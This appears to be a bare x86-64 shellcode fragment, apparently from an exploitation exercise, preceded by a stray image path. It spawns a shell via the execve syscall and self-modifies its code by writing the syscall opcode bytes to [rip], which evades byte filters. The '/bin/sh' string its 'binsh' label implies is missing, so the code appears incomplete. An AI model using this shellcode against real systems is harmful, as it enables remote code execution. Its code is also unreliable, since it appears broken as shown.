 jmp binsh
back:
xor rax, rax
mov al, 0x3b
pop rdi
xor rsi, rsi
xor rdx,rdx
xor ebx, ebx
mov ebx, 0x50e
add ebx, 0x1
mov [rip], ebx
nop
nop
nop
nop
nop
nop
nop
nop

binsh:
call back

